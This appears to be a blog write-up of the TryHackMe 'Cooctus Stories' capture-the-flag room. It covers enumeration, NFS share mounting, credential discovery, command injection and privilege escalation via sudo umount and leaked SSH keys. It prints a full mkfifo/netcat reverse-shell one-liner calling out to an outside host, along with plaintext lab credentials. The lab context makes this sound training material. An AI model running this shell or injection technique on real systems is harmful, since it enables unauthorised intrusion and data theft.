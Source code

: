 ```yaml
---
layout: post
title: "Cooctus Stories | THM "
date: 2021-12-19 17:17:00 -0000
categories: CTF THM
---
```


Cooctus Stories | THM 
12 - 19 - 21 

10.10.118.63

<h2> nmap </h2> 
22/tcp   open  ssh
111/tcp  open  rpcbind
2049/tcp open  nfs
8080/tcp open  http-proxy
35521/tcp open  nlockmgr 1-4 (RPC #100021)
47325/tcp open  mountd   1-3 (RPC #100005)
53991/tcp open  mountd   1-3 (RPC #100005)
58267/tcp open  mountd   1-3 (RPC #100005)

<h2> Web </h2>

gobuster 
/login 
/cat 

<h2> NFS </h2> 

Theres nfs running on the server so that means that there should be a share that is up and running. 

showmount -e 10.10.118.63
Export list for 10.10.118.63:
/var/nfs/general *

sudo mount -t nfs 10.10.118.63:/var/nfs/general /tmp/nfs -nolock
* if you get an error here, try rebooting your device 

theres a file called credentials.bak in the share and we have either a username or a password here. 
paradoxial.test
ShibaPretzel79

we have bypassed the login. 

<h2> Post Login </h2>

We have a form where we can post something and we need to escape it to read credentials or post a file.

Its a post method and returns your input in a body tag after submitting. 

ping seemed to work, so lets just keep trying reverse shell till we get one that works. 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f the classic works!  

So we are in now and can grab the first flag. Then, if we read the crontab, there is an interesting script running from the user szymex. 


#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)

As you can see here, there is a password encoded in the script and it looks like it is doing a ROT to it. As ord takes the numerical value and translates it into a character. When the script is adding numbers together it is just changing the position. If we fire up cyberchef, we can get that password quickly. 

<h2> Szymex </h2> 

If we read the note in tux's directory, it seems like there are a series of challenges we must beat to get his password. 

tuxling_1  
First challenge has a bunch of c code that has been set-up with define statements. There are only 3 we need, f96050ad61. Thats key 1 

tuxling_2  
We have to find this one first.  
find / -type d -name tuxling_2 2>/dev/null
/media/tuxling_2
gpg import and decrypt! - 6eaf62818d  

tuxling_3 
This one is just reading the note - 637b56db1552

all together - f96050ad616eaf62818d637b56db1552
tuxykitty

<h2> tux </h2>

We can run a command as varg through sudo -l. Its a python script so lets see what it can do.  It asks for a password to login. Hm we cant get any further.

If we look in his directory again we can find that there is a hidden git folder. We can read some of the comments through cat but not all. If we run git show - we get the entire log and we can see a hard coded user and pass 
varg:slowroastpork

<h2> root </h2> 

Varg is allowed to run (root) NOPASSWD: /bin/umount. So how do we exploit umount to get root? After reseraching and reading other writeups I found that you can list the mounts and then look for abnormal mounts. 

We find an abornmal mount at /opt/coocktusos. if we unmount it, theres a root flag! but its a fake.However, there are ssh keys we can exploit. Copy them over to the attacking machine and then ssh back in as root for the flag.txt

This was a great room that took me around 3 hours  to crack! Very grateful for the other writeups for helping me with the last root esc. 




